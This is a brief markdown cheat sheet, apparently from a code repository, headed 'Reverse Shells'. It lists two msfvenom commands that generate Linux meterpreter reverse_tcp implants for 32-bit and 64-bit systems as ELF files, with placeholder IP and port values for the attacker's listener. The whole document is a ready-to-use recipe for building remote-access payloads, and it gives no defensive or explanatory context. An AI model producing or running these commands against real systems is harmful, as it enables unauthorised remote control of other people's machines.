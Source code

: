 # Reverse Shells

1. **x86 (32-bit) Payloads**

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o implant-x86
```

2. **x86-64 (64-bit) Payloads**

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o implant-x64
```